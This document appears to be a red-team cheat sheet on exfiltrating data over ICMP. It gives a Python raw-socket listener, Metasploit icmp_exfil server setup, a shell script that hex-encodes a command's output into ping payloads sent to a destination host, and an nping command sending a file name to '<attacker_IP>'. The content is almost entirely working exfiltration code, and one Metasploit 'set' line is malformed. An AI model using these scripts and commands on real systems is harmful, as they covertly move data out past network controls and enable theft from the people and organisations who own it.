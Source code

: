 # ICMP

## 01 - Server Setup

### 1.1 - Python Script Server

`$ cat icmp_server.py`

---

```python
import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
while True:
    data, src = s.recvfrom(1600)
    payload = data[44:60]
    sys.stdout.write(payload)
```

### 1.2 - Metasploit

```
msf > use auxiliary/server/icmp_exfil

msf auxiliary(server/icmp_exfil) > options

Module options (auxiliary/server/icmp_exfil):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   BPF_FILTER       icmp             yes       BFP format filter to listen for
   END_TRIGGER      ^EOF             yes       Trigger for end of file
   FNAME_IN_PACKET  true             yes       Filename presented in first packet straight after START_TRIGGER
   INTERFACE                         no        The name of the interface
   RESP_CONT        OK               yes       Data ro resond when continuation of data expected
   RESP_END         COMPLETE         yes       Data to response when EOF received and data saved
   RESP_START       SEND             yes       Data to respond when initial trigger matches
   START_TRIGGER    ^BOF             yes       Trigger for beginning of file


View the full module info with the info, or info -d command.

msf auxiliary(server/icmp_exfil) > set interface <interface>

msf auxiliary(server/icmp_exfil) > set icmp and not src <target_IP>

msf auxiliary(server/icmp_exfil) > run -j
```

## 02 - Usage

### 2.1 - Unix Shell

`$ cat icmp.sh`

```bash
#!/bin/sh

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

```
$ chmod +x icmp.sh

$ ./icmp.sh <IP> file.txt
```

### 2.2 - Nping

`$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1`

---
## References

- [Can You Hack It - Quick Tips - Data Exfil Over ICMP](https://www.youtube.com/watch?v=IQwl3ZE0rK0)

- [ICMPExfil](https://github.com/martinoj2009/ICMPExfil)